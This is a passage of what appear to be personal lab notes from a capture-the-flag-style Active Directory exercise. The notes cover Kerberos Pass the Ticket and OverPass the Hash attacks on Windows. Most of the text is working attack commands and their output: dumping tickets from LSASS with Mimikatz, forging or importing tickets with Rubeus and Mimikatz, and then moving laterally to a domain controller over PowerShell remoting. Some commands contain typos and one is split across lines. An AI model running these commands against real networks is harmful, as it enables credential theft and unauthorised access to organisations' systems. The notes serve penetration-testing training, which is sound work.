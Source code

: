 # Pass the Ticket (PtT) from Windows - Harvesting Kerberos Tickets from Windows

On Windows, tickets are processed and stored by the LSASS (Local Security Authority Subsystem Service) process. 
Therefore, to get a ticket from a Windows system, you must communicate with LSASS and request it. As a non-
administrative user, you can only get your own tickets, but as a local admin you can collect everything.

Using the `Mimikatz` module `sekurlsa::tickets /export` we can dump all of the available tickets on a machine, 
giving us `.kirbi` files.

```
c:\tools> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug  6 2020 14:53:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::tickets /export

Authentication Id : 0 ; 329278 (00000000:0005063e)
Session           : Network from 0
User Name         : DC01$
Domain            : HTB
Logon Server      : (null)
Logon Time        : 7/12/2022 9:39:55 AM
SID               : S-1-5-18

         * Username : DC01$
         * Domain   : inlanefreight.htb
         * Password : (null)
         
        Group 0 - Ticket Granting Service

        Group 1 - Client Ticket ?
         [00000000]
           Start/End/MaxRenew: 7/12/2022 9:39:55 AM ; 7/12/2022 7:39:54 PM ;
           Service Name (02) : LDAP ; DC01.inlanefreight.htb ; inlanefreight.htb ; @ inlanefreight.htb
           Target Name  (--) : @ inlanefreight.htb
           Client Name  (01) : DC01$ ; @ inlanefreight.htb
           Flags 40a50000    : name_canonicalize ; ok_as_delegate ; pre_authent ; renewable ; forwardable ;
           Session Key       : 0x00000012 - aes256_hmac
             31cfa427a01e10f6e09492f2e8ddf7f74c79a5ef6b725569e19d614a35a69c07
           Ticket            : 0x00000012 - aes256_hmac       ; kvno = 5        [...]
           * Saved to file [0;5063e]-1-0-40a50000-DC01$@LDAP-DC01.inlanefreight.htb.kirbi !

        Group 2 - Ticket Granting Ticket

<SNIP>

mimikatz # exit
Bye!
c:\tools> dir *.kirbi

Directory: c:\tools

Mode                LastWriteTime         Length Name
----                -------------         ------ ----

<SNIP>

-a----        7/12/2022   9:44 AM           1445 [0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
-a----        7/12/2022   9:44 AM           1565 [0;3e7]-0-2-40a50000-DC01$@cifs-DC01.inlanefreight.htb.kirbi

<SNIP>
```

The tickets ending with `$` correspond to a local computer account, which needs a ticket to interact with AD. User 
ticekts that have a username follwed by an `@` that seperates the service name and domain, for example: 
`[randomvalue]-username@service-domain.local.kirbi`

Note, that if you picket a ticket with the service krbtgt, it corresponds to the TGT of that account. At the time 
of writing, using Mimikatz 2.2.0 20220919, if we run "sekurlsa::ekeys" it presents all hashes as des-cbc-md4 on 
some versions of Windows 10. 

Exported tickets ((sekurlsa::tickets /export)) do not work correctly because of this wrong encryption. 
It's possible to use these hashes to generate new tickets or use Rubeus to export tickets in b64 format.

## Pass the Key or OverPass the Hash

```
Mimikatz.exe

privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:XXXXXXXXXXX

rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /aes256:XXXXXXXXXX
```

To learn more about the difference between Mimikatz `sekurlsa::pth` and Rubeus `asktgt`, consult the Rubeus tool 
documentation: https://github.com/GhostPack/Rubeus#example-over-pass-the-hash

Note that modern Windows domains (functional level 2008 and above) use AES encryption by default in normal 
Kerberos exchange. If we use a rc4_hmac(NTLM) hash in a Kerberos exchange it may be detected as an `encryption 
downgrade` and might get flagged.

## Pass the Ticket (PtT)

With the tickets we have we can start to move laterally. With Rubeus we performed an OverPass the Hash attack and 
retrieved a TGT in base64, but instead we could use the flag /ptt to simply submit the ticket to the current login 
session:

```
rubeus.exe asktgt /domain:inlanefreight.htb /user:plaintext /rc4:xxxxxxxxxxxxxxxxxxxxxxx /ptt
```
```
rubeus.exe ptt /ticket:[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi
```
```
[Convert]::TosBase64String([IO.File]::ReadAllBytes("[0;6c680]-2-0-40e10000-plaintext@inlanefreight.htb.kirbi"))
```

Using Rubeus, we can perform a Pass the Ticket providing the b64 string instead of a filename. Finally, we can 
also perform the PtT attack using the Mimikatz module `kerberos::ptt` and the .kirbi file that contains the ticket 
we want to import.

```
mimikatz.exe
privilege::debug

kerberos::ptt "C:\Users\plaintext\Desktop\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
exit

dir \\DC01.inlanefreight.htb\c$
<SNIP>
```

Note that, instead of opening mimikatz.exe with cmd.exe and exiting to get the ticket into the current command 
prompt, we can use the Mimikatz module `misc` to launch a new window with the imported ticket using `misc::cmd`.

## Pass the Ticket with Powershell Remoting

The standard port for HTTP/HTTPS POSH Remoting listeners are on TCP/5985 for HTTP and TCP/5986 for HTTPS.

## POSH Remoting with Mimikatz PtT

```
mimikatz.exe
privilege::debug

kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
exit

powershell
Enter-PSSession -ComputerName DC01
```

## Rubeus POSH Remoting with PtT

Reubeus has the option `createnetonly`, which creates a sacrificial process/logon session(Logon type 9). The 
process is hidden by default, but we can specify the flag `/show` to display the process and the result is the 
equivilent of `runas /netonly`. This prevents the erasure of existing TGTs for the current logon session.

```
Rubeus.exe createnetonly /program:"C:\Windows\System32\cmd.exe" /show
```

The above command will open a new cmd window. From that window, we can execute Rubeus to request a new TGT with 
the option `/ptt` to import the ticket into our current session and connect to the DC using PSRemoting.

```
Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /
aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt

powershell -> Enter-PSSession ...
```


